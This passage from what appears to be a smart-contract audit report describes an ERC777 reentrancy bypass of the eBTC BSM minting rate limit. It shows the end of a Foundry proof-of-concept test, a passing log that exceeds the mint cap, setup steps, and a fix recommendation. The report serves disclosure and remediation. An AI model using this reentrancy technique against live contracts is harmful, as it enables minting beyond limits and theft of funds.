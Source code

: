 ```solidity
        new BypassRateConstraint(address(bsm), address(imBtc), address(escrow));
    imBtc.transfer(address(bypassRateConstraint), imBtc.balanceOf(bob));
    bypassRateConstraint.attack();
    vm.stopPrank();

    console.log("BSM eBTC MINTED    :", bsm.totalMinted());
}
```

> **Note:** For demonstration purposes, `eBTC` was deployed with 8 decimal places to match `imBTC`, as `eBTC` currently lacks proper decimal adjustments.

**Logs:**

```bash
Ran 1 test for test/audit/ForkMain.t.sol:ForkMain
[PASS] test_BypassRateConstraintWithERC777() (gas: 959409)
Logs:
  BSM MAX MINT       : 1100000000
  BSM eBTC MINTED    : 1500000000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 476.25ms (12.22ms CPU time)
```

### Instructions

1. Under the project's root folder, add a `.env` file containing:

```
MAINNET_RPC_URL="YOUR RPC URL"
```

2. Add the following configuration in the `foundry.toml` file:

```toml
[rpc_endpoints]
mainnet = "${MAINNET_RPC_URL}"
```

3. Under `test/`, create an `audit/` folder.
4. Inside `audit/`, add the [`ForkBaseTest.t.sol`](https://gist.github.com/zeGarcao/3fc8e1a1c536133b21de2224851fb141#file-forkbasetest-t-sol), [`ForkMain.t.sol`](https://gist.github.com/zeGarcao/3fc8e1a1c536133b21de2224851fb141#file-forkmain-t-sol), and [`BypassRateConstraint.sol`](https://gist.github.com/zeGarcao/3fc8e1a1c536133b21de2224851fb141#file-bypassrateconstraint-sol) files.
5. Inside `audit/`, create a `mocks/` folder.
6. Inside `mocks/`, add the [`ERC20Mock.sol`](https://gist.github.com/zeGarcao/3fc8e1a1c536133b21de2224851fb141#file-erc20mock-sol) file.
7. Run the following command in your terminal:

```bash
forge test --mt test_BypassRateConstraintWithERC777 -vvv
```

## Recommendation

Modify the `sellAsset` function in the `EbtcBSM` contract to check the rate limiting constraint after transferring the assets to the contract. This will prevent users from bypassing the constraint through reentrancy.
